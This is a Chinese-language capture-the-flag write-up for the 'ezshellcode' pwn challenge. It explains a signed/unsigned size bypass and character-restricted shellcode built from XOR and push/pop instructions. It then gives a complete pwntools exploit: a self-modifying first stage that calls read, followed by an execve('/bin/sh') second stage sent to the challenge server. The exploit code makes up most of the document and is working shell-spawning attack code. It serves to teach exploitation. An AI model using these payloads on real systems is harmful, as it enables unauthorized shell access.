

# ezshellcode

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

看似被size限制了大小，实际上在read的时候size是uint64_t，因此输入-1可以绕过size的问题；
但是题目还限制了输入的字符，考虑用异或和pop、push来控制寄存器和syscall(0x0f05)

先观察一下寄存器：


## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./shellcode')
        if lo & 2:
            gdb.attach(sh, gdbscript='b *$rebase(0x1456)')
    else:
        sh = remote('47.100.139.115', 31258)

    sh.recvuntil(b':')
    sh.sendline(b'-1') # size is ulong
    sh.recvuntil(b':')

    # payload 1, make read syscall to input unlimited shellcode
    code = '''
    xor byte ptr [rax + 0x36], bl
    xor bl, byte ptr [rax + 0x36]
    xor bl, byte ptr [rax + 0x33]
    xor byte ptr [rax + 0x31], bl
    xor byte ptr [rax + 0x32], bl
    push rdi
    pop rax
    push rsi
    pop rdx
    '''
    shc = asm(code)
    shc += b'PX'*15 + b'KAD'
    sh.send(shc)

    # payload 2, open shell
    code = '''
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi, esi
    xor edx, edx
    push 0x3b
    pop rax
    syscall
    '''
    shc = asm(code)
    shc = b'0'*0x33 + shc # align with the next byte to be executed
    sh.send(shc)

    sh.interactive()
```

## shellcode详解

接下来是对第一段shellcode的解释

```as
xor byte ptr [rax + 0x36], bl ; 0X6
xor bl, byte ptr [rax + 0x36] ; 2X6 zero out bl
xor bl, byte ptr [rax + 0x33] ; 2X3 clone intermediate value
xor byte ptr [rax + 0x31], bl ; 0X1 make 0x0f
xor byte ptr [rax + 0x32], bl ; 0X2 make 0x05
push rdi ; W
pop rax  ; X zero out rax
push rsi ; V
pop rdx  ; Z sufficient bytes to read

push rax ; P
pop rax  ; X *15 fill up shellcode until the size reached 0x30

syscall  ; KA; will be xored to 0x0f05
?        ; D ; the intermediate value to make syscall

?        ; a byte at +0x36, will be used to store bl
```
